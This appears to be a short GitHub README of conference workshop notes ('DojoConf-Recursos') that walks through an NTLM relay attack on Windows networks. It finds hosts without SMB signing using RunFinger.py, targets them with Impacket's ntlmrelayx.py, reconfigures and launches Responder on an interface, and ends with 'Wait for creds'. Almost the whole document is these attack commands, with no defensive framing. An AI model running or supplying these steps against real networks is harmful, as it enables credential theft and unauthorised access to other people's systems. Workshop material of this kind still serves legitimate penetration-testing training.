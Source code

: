 # DojoConf-Recursos

comando de Busqueda herramientas:
```
find /var/log/ -name "error.log" -print
```

1. Identify network systems that do not require SMB message validation
    * Run python  **RunFinger.py -i IP_Range** to detect machine with SMB signing:disabled.
    * Configure Impacket’s NTLMrelayx to target those systems
    * **echo "IP"  >> targets.txt**
    * **ntlmrelayx.py -tf targets.txt --smb2support**
2. Disable SMB and HTTP response poisoning in Responder and launch
```
cd /usr/share/responder
```
    * gedit Responder.conf
3. Open the Responder.conf file and set the value of SMB and HTTP to Off
    * **Responder.py** -I eth0 -rdw
4. Wait for creds

